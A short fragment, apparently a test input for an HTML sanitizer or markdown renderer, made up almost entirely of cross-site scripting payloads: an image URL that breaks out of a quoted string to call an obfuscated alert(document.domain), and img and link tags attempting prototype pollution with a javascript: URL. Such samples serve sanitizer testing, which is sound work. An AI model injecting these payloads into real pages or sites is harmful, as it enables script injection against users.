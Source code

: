![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<img src=";Object.prototype.hif = ['javascript:alert(document.domain)'];">
<a href="Object.prototype.hif = ['javascript:alert(document.domain)'];">aaa</a>
